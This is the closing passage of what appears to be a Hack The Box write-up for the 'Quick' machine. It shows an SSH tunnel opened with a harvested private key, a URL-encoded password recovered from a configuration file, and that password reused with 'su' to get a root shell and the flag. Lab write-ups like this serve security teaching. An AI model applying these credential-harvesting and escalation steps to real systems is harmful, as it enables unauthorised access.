 ```text
first tunnel
zweilos@kalimaa:~/htb/quick$ ssh -L 40905:10.10.10.186:443 -i srvadm.id_rsa srvadm@quick.htb
then
https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
decodes to 
https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer
```

I thought `&ftQ4K3SGde8?` looked like it was being used as a password, so I tested it to see if I could use sudo as `srvadm`, but it didn't work. I decided to try something crazy, and tried to `su` to `root`...and it worked!

### Root.txt

```text
srvadm@quick:~/.cache/conf.d$ su root
Password: 
root@quick:/home/srvadm/.cache/conf.d# cd /root
root@quick:~# whoami && uname -a
root
Linux quick 4.15.0-91-generic #92-Ubuntu SMP Fri Feb 28 11:09:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@quick:~# cat root.txt 
d5d1c123d8fd11db776d25ddb3e8256a
```

Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

